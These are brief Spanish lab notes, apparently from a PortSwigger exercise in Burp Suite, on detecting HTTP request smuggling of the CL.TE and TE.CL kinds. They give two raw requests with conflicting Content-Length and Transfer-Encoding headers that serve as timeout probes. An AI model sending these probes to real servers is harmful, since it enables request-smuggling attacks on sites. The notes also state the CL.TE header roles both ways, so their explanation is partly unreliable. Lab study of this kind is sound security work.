 El ataque de **CL.TE** (Content-Length to Transfer-Encoding), cuando el atacante usa la cabecera `Content-Length` para influenciar la interpretación del front-end, mientras que el back-end se ve influenciado por la cabecera `Transfer-Encoding`.

En la raiz editamos desde el burpsuite:
![[Pasted image 20240724142221.png]]
Dentro del código podemos probar diferentes http request y según su respuesta podemos confirmar que hay un tipo de vulnerabilidad. CL.TE es cuando el backend está leyendo el content length y el frontend está leyendo el transfer encoding
~~~
POST / HTTP/1.1\r\n
Host: Portsqiger-lab\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
3\r\n
abc\r\n
X\r\n
~~~
CL.TE = Time out
![[Pasted image 20240724142448.png]]
El frontend va a interpretas la X como la finalización de la petición http pero el backend va a leer el chunked e interpetara el resto del código
~~~
POST / HTTP/1.1\r\n
Host: Portsqiger-lab\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
X
~~~
TE.CL = Time out

![[Pasted image 20240724142609.png]]
